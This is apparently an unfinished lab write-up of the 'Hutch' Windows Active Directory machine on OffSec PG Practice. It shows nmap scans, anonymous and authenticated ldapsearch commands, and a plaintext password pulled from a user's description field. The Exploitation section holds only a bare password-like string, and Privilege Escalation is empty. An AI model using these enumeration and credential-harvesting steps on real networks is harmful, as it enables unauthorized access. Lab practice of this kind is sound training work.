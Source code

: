 ```yaml
---
title: Hutch - Intermediate - Windows- PG Practice
date: 2024-06-12
tags:
  - pg-practice
  - offsec
  - oscp-prep
  - linux
  - ospg
  - active-directory
draft: false
---
```

# **Scanning**

My basic scan runs the following command
```bash
nmap -sC -T5 -Pn -p- --min-rate=10000 $IP
```

```python
└─$ basic 192.168.227.122
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-11 09:53 EDT
Nmap scan report for 192.168.227.122
Host is up (0.14s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Date: Thu, 11 Jul 2024 13:54:22 GMT
|_  Server Type: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-07-11T13:53:50
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 41.86 seconds
```

Further enumerating `ldap` using the following command.
```python
nmap -n -sV -Pn --script "ldap* and not brute" $IP
```
We find that it is running a subdomain named `hutch.offsec` under *ldap*
```python
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
```

Now performing a `ldapsearch` using the following command
```python
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://$IP$" "(objectclass=*)"
```

This gives us a username and a password
```bash
# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
sAMAccountName: fmcsorley
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

Username: `fmcsorley`
Password: `CrabSharkJellyfish192`

192.168.205.122
```
ldapsearch -x -H ldap://192.168.205.122 -D 'hutch.offsec\fmcsorley' -w 'CrabSharkJellyfish192' -b "DC=hutch,DC=offsec"
```

# **Exploitation**

```
{9BoE[[Tl(58Fd
```

# **Privilege Escalation**